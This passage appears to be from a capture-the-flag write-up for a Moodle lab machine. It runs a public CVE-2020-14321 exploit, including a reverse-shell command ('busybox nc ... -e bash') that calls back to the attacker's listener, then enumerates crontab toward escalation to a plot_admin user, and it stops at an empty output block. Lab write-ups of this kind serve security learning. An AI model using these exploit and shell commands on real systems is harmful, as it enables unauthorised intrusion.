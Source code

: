 We also need the moodleSessionId that we can retrive in the cookie tab.<br>
now we can run the POC with the credentials of the user we registered:
```bash
git clone https://github.com/lanzt/CVE-2020-14321.git
cd CVE-2020-14321
pwncat-cs -lp 9999   #we can start our listener on another shell
python3 cve202014321.py
 python3 cve202014321.py -url http://10.10.84.228:9020/moodle -u disturbante -p Disturbante1. -cookie=skg9a2c11ca8vl13gjc080pidd -cmd='busybox nc 10.8.79.118 8888 -e bash' 
```
and we got the callback!!
	
![callback](./pic/callback.png)
	

# plot_admin

Now we need to escalate our privileges to to plot_admin user.<br>
To be a real more real world i tried doing some manual enumeration before actually trying linpeas and other stuff.<br>
so i searched some backup folder database or automatic script.<br>
eventually i found a crontab with:
```bash
cat /etc/crontab
```
output:
```bash
# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
* *     * * *   plot_admin /usr/bin/python3 /home/plot_admin/backup.py
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    /usr/bin/rsync /var/log/apache2/m*_access /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y); /usr/bin/chown -R plot_admin:plot_admin /home/plot_admin/.logs_backup/$(/bin/date +%m.%d.%Y)
```
The root crontab for now is not accessible, but we can try to leverage the plot_admin one:
```bash
* *     * * *   plot_admin /usr/bin/python3 /home/plot_admin/backup.py
```
this script runs every minute executing a python script.<br>
Lets see if we can access the script:
```bash
ls -la /home/plot_admin/backup.py
```
output:
```bash
```